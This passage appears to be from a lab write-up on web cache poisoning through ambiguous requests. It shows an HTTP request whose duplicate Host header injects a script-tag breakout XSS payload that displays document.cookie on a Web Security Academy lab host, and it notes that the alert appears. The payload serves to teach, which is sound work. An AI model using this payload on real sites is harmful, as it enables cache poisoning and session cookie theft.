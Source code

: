 
We can execute Javascript code with a payload like this:

```
GET / HTTP/2
Host: testing123"></script><script>alert(document.cookie)</script><script>
Host: 0af500ba04a9e93b802c499200750009.web-security-academy.net
...
```



![img](images/Web%20cache%20poisoning%20via%20ambiguous%20requests/3.png)


And we see the alert with the cookie:


